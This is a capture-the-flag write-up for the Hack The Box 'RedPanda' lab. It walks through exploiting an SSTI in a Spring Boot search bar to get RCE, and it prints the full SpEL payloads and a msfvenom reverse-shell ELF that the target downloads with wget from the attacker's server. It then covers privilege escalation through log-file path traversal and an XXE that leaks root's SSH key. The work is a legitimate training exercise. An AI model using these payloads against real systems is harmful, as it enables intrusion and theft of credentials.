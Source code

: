 # redpanda-htb-walkthrough
<h3> About the Lab:</h3>
This is a Linux machine that requires exploiting SSTI in a Java SpringFramework application via a search bar on the webpage for RCE and then initial access. For privilege escalation, we will need to emulate what group the user is in, discover a log file he/she has access to, use pspy to discover a JAR file root periodically run, study that JAR file to discover conditions required to pass, exploiting directory traversal, and generate an XXE XML file to leak root’s SSH private key. The privilege escalation for this machine is HARD and shouldn’t be an easy category machine. But let’s get started!

## User Own:
Connect VPN first: `sudo openvpn [your.ovpn file]`<br>
First thing first, run nmap scan on the RedPanda server: `nmap -sS -A -p- -T4 [machine-ip]`<br>
**From nmap Enumeration:**<br>
**port 22**: SSH service<br>
**port 8080**: Red Panda Search (powered by Spring Boot)

We run some other tools as well to gather as much information possible to find out existing vulnerability in the system:<br>
`dirb [url] [wordlist]`<br>
`curl -v [url]`

![image](https://user-images.githubusercontent.com/31168741/203845250-2f90a1ca-396f-4546-865d-623841800910.png)
![image](https://user-images.githubusercontent.com/31168741/203845289-5f991ccb-a71c-4c2f-bcca-2ee00a747d45.png)

From above, we find out it is built in Spring framework Java. We found 3 accessible directories as well. Browse the website manually and inspect each endpoint with Burp Suite. If no input is provided, the search endpoint returns:

![empty_input](https://user-images.githubusercontent.com/31168741/203846234-ac32fa99-1973-4490-bb19-b6b760866f3b.png)

The stats provides some statistics for 2 different authors:<br>
**woodenk**<br>
**damian**<br>
and an export function, which generates a report for each specific user.

![stats_author_woodenk](https://user-images.githubusercontent.com/31168741/203846805-89cb2072-f645-401e-a253-dcbcac02bbfd.png)

Other than that, we've tested for various injections (SQL Injection, XXE Injection) etc. and turns out there is an SSTI injection within the search function, but some characters are blacklisted.<br>

<h3>So what is an SSTI Injection?</h3>
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. For further information: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection<br>

A list of payloads that can be used for checking if the site is vulnerable to SSTI:

![Capture](https://user-images.githubusercontent.com/31168741/203847710-53ca4cb6-033e-440b-a85a-a952488b2f34.PNG)

4 of the payloads didn't work since some of the symbols are blacklisted by the server.

>**Error occured: banned characters**<br>

Oddly enough, the # (pound) symbol and * (star) have done the work and we can confirm the SSTI.

![ssti_confirmed](https://user-images.githubusercontent.com/31168741/203847928-026c15c3-ab62-415e-a887-7bc63588aabf.png)
![image](https://user-images.githubusercontent.com/31168741/203847951-a3bd0348-beee-42fe-98e0-7061a58dc19d.png)

Both mathematical operations 1+3+3+7 and 7+7 equals 14 we can tell that the payload got executed by the server, since we see the expected output.

<h3>SSTI into RCE:</h3>
The nmap scan reveals that the web application is powered by Spring Boot – so is it a Java application. Let's verify our payload by reading /etc/passwd. Use [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)'s Template Injection cheat sheet and find a suitable payload that bypasses the blacklist filter.<br>
Hint: The payload won't work, unless we change the $ (dollar sign) to an * (asterisk).<br>

`${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

![image-1](https://user-images.githubusercontent.com/31168741/204106233-2b022041-c1d7-4155-86ab-91b8e5f3eacc.png)

<h3>Reverse Shell</h3>
Note: pentest.ws (Helps to create a reverse shell)
The shell:<br>
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[your-machine-ip] LPORT=1234 -f elf > rs.elf<br>
Start your HTTP server in the same location as r.elf the reverse shell to the target machine: python3 -m http.server 80. Now the payload we'll use here is: *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("")}; as it is java based (collected from github). Now intercept the get request from searchbar and put the payload in the value section accordingly:<br>
To transfer the payload to the target machine:<br>
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget [your-machine-ip]/rs.elf")}<br>
To change the permission:<br>
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rs.elf")}<br>
Now we execute but before that, do not forget to generate a listener:<br>
nc -lvnp 1234<br>
Execute: *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rs.elf")}<br>
Upgrading to the tty shell so that we can get a better view to follow: python3 -c 'import pty; pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/31168741/204106736-02c77520-4e37-43a1-89ce-8383d18f52fc.png)

In the server yay! Pass for user Woodenk is found under the directory:<br>
>/home/woodenk<br>
>user.txt

## System Own:
<h3>Privilege Escalation</h3>
We run pspy64(snoop unpriviledged Linux processes) to observe. We notice a JAR file is being executed by root within a time interval.<br>
**woodenk@redpanda:/home/woodenk$** `cd /tmp`<br>
**woodenk@redpanda:/tmp$** `wget 10.10.16.9/pspy64` (Change the ip with your localhost)<br>
**woodenk@redpanda:/tmp$** `chmod +x ./pspy64`<br>
**woodenk@redpanda:/tmp$** `./pspy64`<br>

![image-25](https://user-images.githubusercontent.com/31168741/204232264-1a76f509-48c9-4f65-bdb2-23c479653fcd.png)

We host an HTTP server at port 8000 in /opt/credit-score/LogParser/final/target/ and download the file. Opening the JAR file using jd-gui, it appears that **/opt/panda_search/redpanda.log** is being read in main().

![image-26](https://user-images.githubusercontent.com/31168741/204232850-b2bd1377-acd0-4ff0-881f-7aa4fbcac886.png)

According to the code, there are a few conditions to pass:<br>
•	The line must contain “.jpg” in the string<br>
•	split() will be done to the string where “||” is the delimiter.<br>
•	The string must be split into 4 strings:<br>
•	The first string must be a number.<br>
•	4th string must be pointing to an existing .jpg file.<br>
•	The .jpg file’s metadata tag “Artist” must have a value that matches to /credits/<author_name>_creds.xml.

<h3>Create a JPG file and add the author's name</h3>
• Since the current user does not have WRITE access to /credits, we set the “Artist” value to “../tmp/gg” where our XML exploit will be at /tmp/gg_credits.xml.
• JPG file should be in a folder where the current user has WRITE access. I used /tmp.
• Use ExifTool to add the Artist tag with the value “../tmp/gg”: `$exiftool -Artist="../tmp/gg" pe_exploit.jpg`<br>

![image](https://user-images.githubusercontent.com/31168741/204234748-65bf3ada-8707-4045-a606-67e107200337.png)

<h3>Create an XML file</h3>
•	We create an XML file following the structure of existing XML file on the victim’s machine.

![image](https://user-images.githubusercontent.com/31168741/204234971-ce3ad4c7-8022-4468-8b28-0330e23ae26a.png)

•	We transfer both files in the target machine and modify the log file:<br>
**woodenk@redpanda:/tmp$** `wget 10.10.16.9/pe_exploit.jpg -P /tmp`<br>
**woodenk@redpanda:/tmp$** `wget 10.10.16.9/gg_creds.xml -P /tmp`<br>
**woodenk@redpanda:/tmp$** `echo "222||a||a||/../../../../../../tmp/pe_exploit.jpg" > /opt/panda_search/redpanda.log`<br>

•	Wait for a few minutes and read gg_creds.xml. We should see foo’s value is now replaced with root’s private key.

![image](https://user-images.githubusercontent.com/31168741/204235403-b8dbb2cd-3139-48ca-9a85-741a5985cc45.png)

•	Store the private key in root.txt and change its permission before SSH into the victim’s machine as root using the private key.<br>
`$ chmod 600 ./root.txt`<br>
`$ ssh root@10.10.11.170 -i root.txt`<br>

![image](https://user-images.githubusercontent.com/31168741/204235635-2fcbc084-29d1-4951-a171-b43fce2d3698.png)

•	We find root flag in root.txt.

![image](https://user-images.githubusercontent.com/31168741/204235760-36a7593a-f1a1-4b53-95d4-fa6f7c778d88.png)

Solved!






